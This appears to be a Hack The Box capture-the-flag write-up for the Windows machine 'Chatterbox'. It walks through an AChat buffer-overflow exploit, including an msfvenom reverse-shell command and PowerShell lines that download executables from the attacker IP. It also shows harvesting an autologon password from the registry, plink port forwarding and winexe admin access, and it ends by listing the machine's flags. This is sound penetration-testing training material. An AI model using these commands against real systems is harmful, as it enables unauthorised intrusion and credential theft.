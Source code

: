 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Tools and Techniques used, msfvenom, windows enumeration, port forwarding
tags: Windows, HTB, enumeration
---
```

# Chatterbox
# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```
![](https://lh3.googleusercontent.com/Ow3sXRep1uPWbz4lXhpFvPsKqG_lXQ_MqEDiewySwDGwFJK78AlJffdYrzFyWKPLKTysXJcJkFUDkTDhion_cUnvyqhkBfmyPQ_ZrTgnPkj25O0XXarfcs8KbC_JP2hblOuJrKL1two5ZkEcPb5pimX4wsddGgz4F7P1R5ACbrsMJiHAT1Xl-n_QkroP_xyB2TTIxxORo0xD4yXDJRVXXjOlAE9D6-U7xB8h41fSdeQoA176bBKF7xKf8w1wo8bbRSszz-Z-_IfF2wAhXmtMwwgf_OlUbog4qcQ6N8Os31Oywb_qaGtV59gs3xpPlrMZ7uKzh8GH_a-NR1JIkqEPF4IvGg1YmOKPMftdJkdxK7uG2qRcMGfAd9ippX_otvp1KY_mLz7bEfegGM8ft_IZ8iqtE0yLMMryuWJ5p3HoZbhwZzqLMHjopIrGx0oH4XGAwIsFxegKAscyn9JxkwXNSq_UapuAiLuviMnRlGFCLjsCReSscSThWWVkX0tLjY3nSD50o8iapeaZaQiimVpxqji3xTTx3ijBzWhfzRqlsJAylFfmUAfuCsqHnTn2NRFglhBG92Bbw78JNs4RuHQDlGwX9_bNZzJzHL8hwqGka-g8jzXrcdoSq-xQAiP6Yimuk8PQELf1b-UeQmO2UpsTyMQtiMG5iWrcU8UrHOV0nVpRH3m-GYouIek=w634-h248-no)

# EXPLOITATION
1. We use Achat python exploit "CVE:2015-1578 2015-1577"
2. We generate shellcode to use with the Achat BoF
```ruby
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' 
BufferRegister=EAX -f python
```
3. We set-up nc and we get a reverse shell as user Alfred.

**Optional**: You can also create a `meterpreter` shell with msfvenom and upload it to the target machine. Then use multi/handler to catch it.Ex
```ruby
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```
![](https://lh3.googleusercontent.com/E0KTtqED2h8NIIbu0TeAYzb_ZdtqpaWwMKpTnsVsF3sUjhBh7w017TcrkHWs8QSkfKLxseMPKHVS3ic6w60KZuBRs464UDvZb1BLy1ev_oCauy3a1e31bWoAOUSxwjeTuMkiPY2RxasW3vYYzdEWQlYa3OsYg_2Tfy9n_IKaAyjpBUf7kZXk7bWzbsT6Rsip-lnqI9OKtnuro5vQXYusqJA3lggcf0siKmIgM7Kr0yMdPs6lHqb9uokZYnGJ1zMWUNuOU7h-SiXUVcW8ayedQVYSi1Z0J8fqbZle8kFBQa2GEpDS7oNpEj95L00oaBcWJRZ46cEA_9UntAMA9xd3fFOr6eOA9dgqCknPSksADSeoEn6QuUsqlkAIYgbJ84zt9TEUfFw4gTQavyyrIeAWck4r7utnygDfzwPdeng6RKhR53yMP9xE5QdPnDDEYXHXeBGXkgJHJTtUTT7fdwWlROq4gMSmjOLdOUEl00r0P-YVJnmVbpZ4nNvDQn6kWWDygYd26o5CTG4bkS3b21DuW_Wj0aMBoDhLuXNrJA9-M_5XtJm6CoxxLV-ACYJGd6tsDBOvjrNuBqzMNQ2CQh1FmiSoGnahyooXZ3hrZvp2O7s29hnrPYkhpcjcXEdKVNHJuXcHgiv6emknwMetDGrXXlThMkAAzMpFoXPAFH-PKI7C9ulnhYTbB6I=w610-h500-no)

# Privilege Escalation Port-forwarding
1. Doing some priv-esc check we find the password for user Alfred

```ruby
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```ruby
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
![](https://lh3.googleusercontent.com/w8M3b82YBZqWsjkFH52BdDXFg08eoMzGRCu1ZhaHPAWFcbMD2USy-g7-qIswTFJ2t0Ai-c2uB6R0kpgCH1aRyqDYBsSBq-y4AIkiiN1EmMheKfhYUJdjL6my0AhUee3Od2RlC8YTq8H8XiyAJab3d1TzgNxHfOZeUgHPonBV0w4VtaHe5lENmhOJT1FQAZQRini2zh1xStD7anH1g1gnRdVhGuatw0sxlWZ6sDLwVNu8gDb5TwAwmLxOTZ99JX_y_d3lh351cJNubcjjBa1B-oUkFYT6SZPdECW1yIoqtE6s4KX5xnxkOEuPtdvLrLZSX5QQn-04EgqnUS48DmIgwXjYH9DMV4nbwfEgqq5jBf9fdNnpKodiFHrCVABcrkKnxVogEbtKUFxBd3TLNhG6gXAV3UbtHkh9TGPu1Jqq2RrFbqG-Wu0y7XxTXWnqYMx_WpDnK21BZwjZv7hUD8-u5T0evNwNiZUPWyXA3IC4RvS10aX_UwbzFWnLAujE3Wr27vE0C1r0qEWCWUqKmHFgsG5pEHQpzJt_OXnpXBrKlvKC8hcn51iP208DNvyDQHmOPz8espFyrcu0Vq9Jj6BrtOROWT3PXkEn7l4Tk3gpJLtIPqn5UFRednoDMgb7tp3bTym_5rHpswPsENPZY3tpkBJRSHdAF3lxWWKJ4KfUmBG6p97mA06nH_A=w795-h156-no)

2. We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```ruby
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
```
![](https://lh3.googleusercontent.com/hLxLdIRfKxQy28HlU6nV2w6JFmlMM7a3afhb2IxG_e4Ykz1FaZXiBsPq0zJIv9ezpDsKXHYm8irI5edlg1MYtsWOZudH6Onf-WxFLvbGarZ6qGYtrTN28Ai6z4whmkHJLH5iO0g2hWAp0QitHrvwbup2Lc7Z7lg2wHwWKRJ9AJ1nkVoYNVuJ-LtSl3DeJ6Hk6ZHQqwHqQoT0Wpitw15BrCyetmGr55kmVqAAG2SwEZVU_Bp0yC7B_EBz184H2KhvJUZQ_NGKbxqqSUOUhHrj9aKHFTEX1mJ-869u4fE6oimEY37Nv0w4yDWCcXOsvXM7sJGHAdLGm1Z001nIRcMiTIx8k1dVXmxqSULC1XtoPL56b0nH5yP3k8SRx88o--AYyyFY5mzURdVim5v3k9_rkUZZ9F4eJGHQOD-VzdqjQjNrNdgKQhk_LKmCT1y2i5ZGHTBxLfUUR2we1i_EIxnGUhVeleSP1oJT6vM06XlOnVYgLJC2uI5mOQHy42WVTnpeEyehVF5ClrSUIcbrROyl5zIs0E3dKOzaSzZIaIvbSujjUZl4Rtp01kyyhGgXRoSCjjqFxtLgesGCKzy3Mf_siDbhqIJfebTaUgtP76LNqyenmXgobsEiFdl6uAAapSDtUkcuTbTD84oCSsjFxoFzLCi6MqwiTd55ychDJTKYL5J1mesYYWDrX4o=w573-h319-no)

![](https://lh3.googleusercontent.com/ABF0QL82Mey0TC-c-kbA1mjoM4JsuHBECUzDFAghPFjcG6GC7PanvKqO7X2_v0cFmBNPzNhm6Le7GyJLEFFLggQaWnE3pvvZIMHCmf8Ot1QUEYta-S-poJnV_5oD4Gatwdi6SeYJvuxhbfEvf1rbxh8xExHZrOgYNCs9CPbWJNjxmY4KsF4o-CEt0RWkcAXVEnM7NZAWP_nd6cw8fqkMHP2HlDfBvjXh0URXLWdQJlUqT78-8Lhex2GejC9-I3EQqL6k_AcqCJJhQ9fDmuNnD0ChvbZZtKyJVyfse6URGDW0Hdhfa9rWDGX-AQ2gcC7zD4XnX9_1w1rDccvwz1NZCclaT3M02vR3qnMvsNhnOg9_24pEFSodDSLUdSNKFShEcUeqgVs36nyQM9XWmYV0ElpqYvGSnP7dcpCqHaH2xR-aHfFIy0Xrw-cYeNgN9EYlhcJ0T9tO5X54rBo3vMJ0PWNwBs_UjjL_Ows6Bq6VkWT9T-jWHtbGREfd0xboX6yMetg32u6Pf1hc9QK4U92oJPGNFjn6Ir7A7nT245KHjKDyouZqvGmWH1NWvneHfDs1k_8Ur-F93cHJMQhwV9Qq9ThFch11iRHFm41jmXN_8AaOSMTNjZKuh1mzIOMK-eKVntM1bwUiWV-TSs_liP05m_oInhZa6MZrXPRCj7foAQwPetDeuvAf2VM=w995-h94-no)

Then.
```ruby
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
![](https://lh3.googleusercontent.com/3hgewaHdfTeTGCjqWaAFIJpoNsUznouWC1xlwtoIgnhF6HpRn22Z0FbnrDC8mXzVf9_5xwQe3rJi16uK83JauxdvQ3hvMnNz83WR-ff7CiC29tmWxPIElI6e47v80VrQD04tjeaLPel2qJEfv3qwDMAwzXYz99LO8PYoloRu2zuf1GiE-yTbBG4QIWhzr7WXpCOs7_kgYueM46LQhoxZinHBrhe6sVxhFpra-49dHolelEogpxFSEj0Nf1m5xeE_toUHaY9cDYwmdPm8bjZ8_gOd1PlsChrRNMj0QFQ-YyXvAN5kWocC7zQ86p42jrFxRQlhbIEoQQGBMun81Zfd9nUh6pmYuVJ1Yu6jtvaOm0bAjN7sG_ziN964v9_0DPjaFlpNbsB03AM3pSxpzUwIQXQVLQ61WuRYTNF1039tiKnfG6AeXCP5TuQqS5z-BpVQ29hyD44B_KR8MChHtQRHy2tpuxjEAdxpZa-HoFHmTjau7TSuEDe0FGynjcLVuUgcnTMCkJnF2BXme1LENos41q_CFiJCBswLoe3V5Y84VUUkNWd4-H0GfWW5Z4D50pMW3wPVYd3JaHmNI2aPydPlkoUT1Vjna9RETPovCkd-2DAxu4Q6ItEDFl4qkEG7tBX3SYbZ_vwcsb3oOZC4cCvo5V3LBewHKcbC6myd9b-77gUIwK-vF2W8EC8=w671-h377-no)

3. We check with netstat to make sure the port 445 is open and connecte to us
4. The we connect reverse using `winexe` and password `Welcome1!` and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe"
```
![](https://lh3.googleusercontent.com/qJ_iqW9ZDj5NmYHAZhf9jIyp64xLkOF40n8BlPayOvlhVlO6ES1Ud4QqmtpzKuR_jeKSZFcUhGcM5wHNsX089y1-UEH-czLi5PQDnrWRpHcLiRC4HN0a1t_gH6w84RyS2AlIS_vb1ocXjiOV04l-fyvKXqjzqXO0dx2fEG5Siq8hQrJTKsXsDt3yGy_gvGbjLC25SQq97tleHu8n4SCnv2Cjc6DD_6KwehKy7RrJw601snGgZs1Lyx3dpGCcYkOqq2agv-ByaJqWdbhu8cWlzmKQIj-TpuYuFSknz0G0NAjmb0f3IN-ozXv7dP284IcPrDprQFC88QeD_PHfaowY7KERozetcjAFuo1zvQXVDf4Ke20SNOF8lUH8HxjFJxR3uWM8tDu5z9PeTSwvX7NDl2QewQvC1iWSBpNhYotcvim9J4AekXJfTRoUJ1kzaKhbWc7l52ycI8xMUEL9cO0MTMRWN99oD-4KYzZuuGliQT96SpupGQh6PBo9NHgiESB60RbgoAC0bBYDmNkiFzz8VfnDTisQUcXlNpxhvp292s0gjKAhlB04IKC2kKdzPetPbnp51hdsYQ9bFMXerg5vguBK7hew6k6bgzewhoQ5otrBQdVh68vowY2lKnV3aDVD_YnWwP0K2gjFDVUmMUj4rmf95niOwpzc6AGgxgihyn64Q88xaoL6Hq8=w698-h203-no)

# FLAGS
```shell
USER:72290246dfaedb1e3e3ac9d6fb306334
ROOT:a673d1b1fa95c276c5ef2aa13d9dcc7c 
```
